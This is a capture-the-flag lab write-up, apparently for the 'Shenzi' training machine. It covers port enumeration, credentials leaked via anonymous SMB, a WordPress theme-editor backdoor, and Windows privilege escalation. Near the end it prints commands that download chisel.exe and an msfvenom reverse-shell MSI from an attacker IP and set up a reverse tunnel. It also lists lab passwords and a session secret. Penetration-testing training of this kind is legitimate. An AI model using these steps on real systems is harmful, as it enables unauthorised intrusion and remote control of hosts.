


# Network Enumeration

```bash
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
5040/tcp  open  unknown
7680/tcp  open  pando-pub

```


# Password

```markdown
# Mercury
newuser:wampp

# MySQL
root: no password

# WordPress
admin:FeltHeadwallWight357

# WEBDAV
xampp-dav-unsecure:ppmax2011
```


# Port Enumeration

## FTP 21

`FTP` Service don't allow anonymous login.


## SMB 135/445

`SMB` Service allow anonymous login. Find some documents can be download.

### Password.txt

```
┌──(aaron㉿aaron)-[~/Desktop/pg/shenzi/smb]
└─$ cat passwords.txt                                                                                  
### XAMPP Default Passwords ###
1) MySQL (phpMyAdmin):
   User: root
   Password:
   (means no password!)
2) FileZilla FTP:
   [ You have to create a new user on the FileZilla Interface ] 
3) Mercury (not in the USB & lite version): 
   Postmaster: Postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)

   User: newuser  
   Password: wampp 

4) WEBDAV: 
   User: xampp-dav-unsecure
   Password: ppmax2011
   Attention: WEBDAV is not active since XAMPP Version 1.7.4.
   For activation please comment out the httpd-dav.conf and
   following modules in the httpd.conf
   
   LoadModule dav_module modules/mod_dav.so
   LoadModule dav_fs_module modules/mod_dav_fs.so  
   
   Please do not forget to refresh the WEBDAV authentification (users and passwords).     
5) WordPress:
   User: admin
   Password: FeltHeadwallWight357

```

### readme_en.txt

#### Get version information


#### Password

```
* PASSWORDS:                                                        

1) MySQL:                                                           
   User: root                                                       
   Password:                                                        
   (means no password!)                                             
2) FileZilla FTP:                                                   
   [ You have to create a new user on the FileZilla Interface ]
3) Mercury:                                                         
   Postmaster: postmaster (postmaster@localhost)
   Administrator: Admin (admin@localhost)
   TestUser: newuser                                                
   Password: wampp                                                  
4) WEBDAV:                                                          
   User: xampp-dav-unsecure                                         
   Password: ppmax2011
```


### `sess_klk75u2q4rpgfjs3785h6hpipp `

```
┌──(aaron㉿aaron)-[~/Desktop/pg/shenzi/smb]
└─$ cat sess_klk75u2q4rpgfjs3785h6hpipp 
 PMA_token |s:32:"522b574a21767922222439295b4b2975"; HMAC_secret |s:16:"67gK3D[0mYw<Mlpn";browser_access_time|a:2:{s:7:"default";i:1590593735;s:36:"d3907c4c-ecaf-f98a-85db-1bce60b6913a";i:1590596659;}relation|a:1:{i:1;a:41:{s:11:"PMA_VERSION";s:5:"5.0.2";s:7:"relwork";b:1;s:11:"displaywork";b:1;s:12:"bookmarkwork";b:1;s:7:"pdfwork";b:1;s:8:"commwork";b:1;s:8:"mimework";b:1;s:11:"historywork";b:1;s:10:"recentwork";b:1;s:12:"favoritework";b:1;s:11:"uiprefswork";b:1;s:12:"trackingwork";b:1;s:14:"userconfigwork";b:1;s:9:"menuswork";b:1;s:7:"navwork";b:1;s:17:"savedsearcheswork";b:1;s:18:"centralcolumnswork";b:1;s:20:"designersettingswork";b:1;s:19:"exporttemplateswork";b:1;s:8:"allworks";b:1;s:4:"user";s:4:"root";s:2:"db";s:10:"phpmyadmin";s:8:"bookmark";s:13:"pma__bookmark";s:15:"central_columns";s:20:"pma__central_columns";s:11:"column_info";s:16:"pma__column_info";s:17:"designer_settings";s:22:"pma__designer_settings";s:16:"export_templates";s:21:"pma__export_templates";s:8:"favorite";s:13:"pma__favorite";s:7:"history";s:12:"pma__history";s:16:"navigationhiding";s:21:"pma__navigationhiding";s:9:"pdf_pages";s:14:"pma__pdf_pages";s:6:"recent";s:11:"pma__recent";s:8:"relation";s:13:"pma__relation";s:13:"savedsearches";s:18:"pma__savedsearches";s:12:"table_coords";s:17:"pma__table_coords";s:10:"table_info";s:15:"pma__table_info";s:13:"table_uiprefs";s:18:"pma__table_uiprefs";s:8:"tracking";s:13:"pma__tracking";s:10:"userconfig";s:15:"pma__userconfig";s:10:"usergroups";s:15:"pma__usergroups";s:5:"users";s:10:"pma__users";}}two_factor_check|b:1;cache|a:3:{s:8:"server_1";a:4:{s:15:"userprefs_mtime";s:10:"1590593621";s:14:"userprefs_type";s:2:"db";s:12:"config_mtime";i:1584764260;s:9:"userprefs";a:1:{s:7:"Console";a:1:{s:4:"Mode";s:8:"collapse";}}}s:13:"server_1_root";a:16:{s:14:"mysql_cur_user";s:14:"root@localhost";s:12:"is_grantuser";b:1;s:13:"is_createuser";b:1;s:12:"is_superuser";b:1;s:17:"is_create_db_priv";b:1;s:14:"is_reload_priv";b:1;s:12:"db_to_create";s:0:"";s:30:"dbs_where_create_table_allowed";a:1:{i:0;s:1:"*";}s:11:"dbs_to_test";b:0;s:9:"proc_priv";b:1;s:10:"table_priv";b:1;s:8:"col_priv";b:1;s:7:"db_priv";b:1;s:11:"binary_logs";a:0:{}s:18:"menu-levels-server";a:13:{s:9:"databases";s:9:"Databases";s:3:"sql";s:3:"SQL";s:6:"status";s:6:"Status";s:6:"rights";s:5:"Users";s:6:"export";s:6:"Export";s:6:"import";s:6:"Import";s:8:"settings";s:8:"Settings";s:6:"binlog";s:10:"Binary log";s:11:"replication";s:11:"Replication";s:4:"vars";s:9:"Variables";s:7:"charset";s:8:"Charsets";s:7:"plugins";s:7:"Plugins";s:6:"engine";s:7:"Engines";}s:14:"menu-levels-db";a:14:{s:9:"structure";s:9:"Structure";s:3:"sql";s:3:"SQL";s:6:"search";s:6:"Search";s:5:"query";s:5:"Query";s:6:"export";s:6:"Export";s:6:"import";s:6:"Import";s:9:"operation";s:10:"Operations";s:10:"privileges";s:10:"Privileges";s:8:"routines";s:8:"Routines";s:6:"events";s:6:"Events";s:8:"triggers";s:8:"Triggers";s:8:"tracking";s:8:"Tracking";s:8:"designer";s:8:"Designer";s:15:"central_columns";s:15:"Central columns";}}s:13:"version_check";a:2:{s:8:"response";s:419:"{
    "date": "2020-03-21", 
    "version": "5.0.2", 
    "releases": [
        {
            "date": "2020-03-21", 
            "php_versions": ">=5.5,<8.0", 
            "version": "4.9.5", 
            "mysql_versions": ">=5.5"
        }, 
        {
            "date": "2020-03-21", 
            "php_versions": ">=7.1,<8.0", 
            "version": "5.0.2", 
            "mysql_versions": ">=5.5"
        }
    ]
}";s:9:"timestamp";i:1590593621;}}git_location|N;is_git_revision|b:0;tmpval|a:4:{s:14:"favoriteTables";a:1:{i:1;a:0:{}}s:12:"recentTables";a:1:{i:1;a:0:{}}s:18:"table_limit_offset";i:0;s:21:"table_limit_offset_db";s:8:"testsite";}ConfigFile1|a:2:{s:7:"Console";a:1:{s:4:"Mode";s:8:"collapse";}s:7:"Servers";a:1:{i:1;a:2:{s:7:"only_db";s:0:"";s:7:"hide_db";s:0:"";}}}debug|a:0:{}errors|a:0:{}
```


### why.tmp


### xampp-control.ini


## Port 80

In port 80, it's a `XAMPP` default page.


The `phpmyadmin` is Access forbidden.


## Port 443

Same to port 80


## Port 3306



Our IP address is not in whitelist


## Port 5040

The port was opened, can use `nc` to connect, but no any response.


## Port 7680

Connection refused


# Web Enumeration

## Port 80

Use `gobuster` to enumeration web path, but no result return.


Look at to the machine name is `shenzi`, try to directly access `shenzi`.


It's work! And also below the title, there shows the web category is `WordPress`.

## WordPress

Use `wpscan` to get more information about this page.

### WordPress version


 ### WordPress Theme


### WordPress Plugins

No plugins.


### WordPress Path

```bash
/admin                (Status: 302) [Size: 0] [--> http://192.168.212.55/shenzi/wp-admin/]
/wp-admin             (Status: 301) [Size: 350] [--> http://192.168.212.55/shenzi/wp-admin/]
/login                (Status: 302) [Size: 0] [--> http://192.168.212.55/shenzi/wp-login.php]
/feed                 (Status: 301) [Size: 0] [--> http://192.168.212.55/shenzi/feed/] 
```


Use the admin creds to login wordpress.


Navigate to administrator dashboard.

### Activate Plugins


Active the theme `Hello Dolly`, then edit the page to upload `simple-backdoor.php`. 


Then access to `simple-backdoor.php`.


Use `url encode` to download `nc`



Download `reverse shell c ` to target.


Then start listener, get reverse shell.


# PE

## Information Collection

### Check user privilege


### System information


### Modifiable Services


### Installed applications


### TCP Listening Ports


### Setting up proxy for connect to phpmyadmin

```bash
PS C:\Windows\Temp> iwr -uri http://192.168.45.232/chisel.exe -o chisel.exe
PS C:\Windows\Temp> .\chisel.exe client 192.168.45.232:8081 R:80:127.0.0.1:80
```


Then can access to `phpmyadmin`, but unuseful.


### Always Install Elevated


`AlwaysInstallElevated` is enabled.

Following [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) to PE, use `msfvenom` to generate the reverse shell msi file. Then transfer to the machine.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/shenzi]
└─$ msfvenom -p windows/x64/shell_reverse_tcp -f msi -o shell.msi LHOST=tun0 LPORT=443
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi

PS C:\users\shenzi> iwr -uri http://192.168.45.232/shell.msi -o shell.msi
```

Running the `shell.msi` then get system shell.

